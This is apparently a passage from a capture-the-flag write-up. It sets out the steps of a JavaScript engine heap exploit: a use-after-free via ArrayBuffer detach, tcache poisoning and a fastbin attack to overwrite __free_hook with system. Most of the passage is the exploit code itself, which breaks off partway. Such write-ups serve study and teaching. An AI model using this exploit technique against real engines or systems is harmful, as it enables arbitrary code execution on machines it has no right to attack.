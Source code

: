 * Use UAF to corrupt tcache 0x40's fd pointer, overwrite it into `__free_hook-0x30` ( near `__free_hook` ).
* Allocate some 0x40 chunk to let `0x7f` be written in front of `__free_hook` ( faking heap meta data for fastbin 0x70 ).
* Launch fastbin attack. First overwrite fastbin 0x70's fd into our fake chunk ( near `__free_hook` ), then allocate chunk from fastbin 0x70.
* Now we can overwrite `__free_hook`. Overwrite it to `system`, create another ArrayBuffer for our command string, then free it with `%ArrayBufferDetach`.


Full exploit code:

```javascript
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { 
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); 
}

function itof(val) { 
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

function pwn() {
    const buffer = new ArrayBuffer(0x500);
    const buffer2 = new ArrayBuffer(0x500);
    const uint8 = new Uint8Array(buffer);
    const uint82 = new Uint8Array(buffer2);
    const float64 = new Float64Array(buffer2);
    
    // Free a chunk and leak heap and libc address
    %ArrayBufferDetach(buffer);
    uint82.set(uint8,0);
    heap =  ftoi(float64[0]);
    libc = ftoi(float64[1]) - 0x3ebca0n;
    console.log("Heap: 0x"+ heap.toString(16));
    console.log("Libc: 0x"+libc.toString(16));
  
    // Poison tcache 0x40's fd to near __free_hook
    // Ensure 0x7f is placed before __free_hook for later usage ( fastbin attack )
    const buffer3 = new ArrayBuffer(0x30);
    const uint83 = new Uint8Array(buffer3);
    %ArrayBufferDetach(buffer3);
    float64[0] = itof(libc+0x3ed8e8n-0x30n); // free_hook - 0x30
    uint83.set(uint82.slice(0,8),0);
    for(let i=0;i<20;i++)
        new ArrayBuffer(0x30);
    
    // Fastbin attack 
    // Get an ArrayBuffer, which its buffer address is near __free_hook
    const buffer4 = new ArrayBuffer(0x8);
    const uint84 = new Uint8Array(buffer4);
    float64[0] = itof(libc+0x3ed8cdn); // overwrite fastbin 0x70's fd
    uint84.set(uint82.slice(0,8),0);
    var X = []
    
    for(let i=0;i<0x10;i++)
        X.push(new Uint8Array(new ArrayBuffer(0x60)));
    
    for(let i=0;i<0x10;i++)
```